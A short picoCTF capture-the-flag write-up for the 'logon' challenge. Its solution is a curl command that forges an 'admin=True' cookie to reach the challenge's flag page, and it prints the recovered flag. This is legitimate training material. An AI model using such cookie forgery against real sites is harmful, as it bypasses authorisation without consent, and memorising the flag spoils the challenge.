 # logon 

## Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594
## Solución
```bash
┌──(emgeek㉿EmGeek-Kali-PC)-[~/Documents/AppImages]  
└─$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: admin=True" | grep picoCTF  
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current  
                                Dload  Upload   Total   Spent    Left  Speed  
100  1312  100  1312    0     0     35      0  0:00:37  0:00:37 --:--:--   331  
           <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
```

## Notas adicionales


## Referencias